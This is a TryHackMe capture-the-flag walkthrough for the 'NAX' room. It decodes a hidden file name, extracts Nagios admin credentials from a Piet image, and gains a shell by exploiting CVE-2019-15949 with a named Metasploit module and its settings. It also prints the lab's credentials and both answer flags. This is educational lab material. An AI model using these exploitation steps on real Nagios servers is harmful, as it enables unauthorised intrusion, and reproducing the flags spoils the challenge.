# NAX – TryHackMe Writeup

---

## Periodic Table Decoding

The two letters obviously refer to elements from the periodic table, so we map each value with its corresponding atomic number:

```
Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr
47 – 80 – 73 – 51 – 84 – 46 – 80 – 78 – 103
```

Decimal to ASCII:
```
/PI3T.PNg
```

So the answer to:

**What hidden file did you find?**
```
/PI3T.PNg
```

---

## Accessing the Hidden File

After going to:

```
https://10.80.128.118/PI3T.PNg
```



The image was downloaded and analyzed.



After downloading the image and using `exiftool` to extract useful information, we got the answer to the next question:

**Who is the creator of the file?**
```
Piet Mondrian
```

---

## Piet Steganography

After searching for Piet steganography, it leads to **Piet**, an esoteric programming language where code looks like abstract geometric pictures.

So after downloading the proper tool:

```bash
wget https://www.bertnase.de/npiet/npiet-1.3f.tar.gz
tar -xf npiet-1.3f.tar.gz
cd npiet-1.3f
gcc npiet.c -o npiet
```

The image was first converted from PNG to PPM format, then executed:

```bash
./npiet PI3T.ppm
```



Output:
```
nagiosadmin:n3p3UQ&9BjLp4$7uhWdY
```

---

## Web Enumeration

After running directory brute-force:



An endpoint was discovered:
```
/index.php
```



After logging in with the credentials:



---

## Vulnerability Identification

After further searching:



The vulnerability identified is:

```
CVE-2019-15949
```

---

## Exploitation Using Metasploit

Metasploit was started and Nagios modules were searched:



Selected module:
```
exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
```

Set the required parameters:

```bash
set LHOST YOURATTACK_BOX
set RHOSTS TARGET_IP
set USERNAME nagiosadmin
set PASSWORD n3p3UQ&9BjLp4$7uhWdY
```

Run the exploit:



---

## Shell Access

A shell was spawned, then upgraded to a TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



---

## Flags

User flag:
```
THM{84b17add1d72a9f2e99c33bc568ae0f1}
```

Root flag:
```
THM{c89b2e39c83067503a6508b21ed6e962}
```



---
